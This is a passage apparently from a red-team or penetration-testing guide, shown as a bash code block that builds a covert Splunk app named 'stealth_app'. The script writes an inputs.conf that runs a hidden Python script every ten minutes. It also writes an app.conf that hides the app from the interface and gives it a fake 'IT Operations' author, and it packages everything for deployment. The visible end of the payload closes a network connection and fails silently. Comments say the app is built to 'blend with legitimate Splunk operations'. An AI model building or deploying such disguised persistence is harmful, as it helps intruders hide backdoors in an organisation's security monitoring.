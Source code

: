 ```bash
            except:
                break
                
        conn.close()
        
    except:
        # Fail silently
        pass

if __name__ == "__main__":
    process_logs()
EOF
    
    # Legitimate-looking inputs.conf
    cat > stealth_app/$app_name/default/inputs.conf << 'EOF'
[script://./bin/parser.py]
disabled = 0
interval = 600
sourcetype = log_analysis
source = log_parser
EOF
    
    # Legitimate application metadata
    cat > stealth_app/$app_name/default/app.conf << 'EOF'
[install]
state = enabled
is_configured = true

[ui]
is_visible = false
label = Log Parser

[launcher]
author = IT Operations
description = Advanced log parsing and analysis
version = 2.1.0
EOF
    
    tar -czf stealth_app.tar.gz stealth_app/
    
    echo "[+] Stealth application created: stealth_app.tar.gz"
    echo "[+] Designed to blend with legitimate Splunk operations"
}

# create_stealth_app
```

---

## Professional Assessment Integration
